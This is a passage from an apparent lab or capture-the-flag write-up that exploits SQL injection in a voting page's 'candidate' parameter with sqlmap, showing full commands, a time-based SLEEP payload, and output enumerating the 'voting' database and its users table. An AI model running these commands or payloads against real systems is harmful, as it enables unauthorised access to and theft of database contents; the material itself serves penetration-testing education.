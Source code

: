 ## Exploitation

Now that we know that the candidate parameter is vulnerable to time-based and error-based SQLi, let's leverage this vulnerability to enumerate the database content. Let's start by enumerating all the databases on the server. 
```bash
┌──(pentester㉿kali)-[~/Democracy/Scans/Web]
└─$sqlmap http://10.0.2.19/vote.php -X POST -H 'Cookie: PHPSESSID=90jt0r5s8i3s1o2u5iufi2h6rj; voted=1' --data 'candidate=democrat' --dbs --tables

<SNIP>
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: candidate (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: candidate=democrat' AND (SELECT 9519 FROM (SELECT(SLEEP(10)))iNpV) AND 'UeeB'='UeeB
---
[11:33:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.56
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[11:33:10] [INFO] fetching database names
[11:33:10] [INFO] fetching number of databases
[11:33:10] [INFO] resumed: 1
[11:33:10] [INFO] resumed: information_schema
available databases [1]:
[*] information_schema

[11:33:10] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[11:33:10] [INFO] fetching current database
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] y
.............................. (done)
[11:33:30] [CRITICAL] considerable lagging has been detected in connection response(s). Please use as high value for option '--time-sec' as possible (e.g. 10 or more)
[11:33:31] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[11:34:44] [ERROR] invalid character detected. retrying..
voting
[11:38:47] [INFO] fetching tables for database: 'voting'
[11:38:47] [INFO] fetching number of tables for database 'voting'
[11:38:47] [INFO] retrieved: 2
[11:39:12] [INFO] retrieved: users
[11:42:01] [INFO] retrieved: votes
<SNIP>
[*] ending @ 12:24:55 /2024-09-17/
```

At this point,  we have successfully retrieved the databases and the tables present on the target MySQL instance. We can see in our result that a non-default database named voting, this database appears to contain an interesting table named users. 
```bash
┌──(pentester㉿kali)-[~/Democracy/Scans/Web]                         
└─$sqlmap http://10.0.2.19/vote.php -X POST -H 'Cookie: PHPSESSID=90jt0r5s8i3s1o2u5iufi2h6rj; voted=1' --data 'candidate=democ' --delay=0.5 -D voting  -T users --columns        
<SNIP>
[*] starting @ 12:27:21 /2024-09-17/                                             
[12:27:22] [INFO] resuming back-end DBMS 'mysql'                                 
[12:27:22] [INFO] testing connection to the target URL                   
sqlmap resumed the following injection point(s) from stored session:             
<SNIP>

```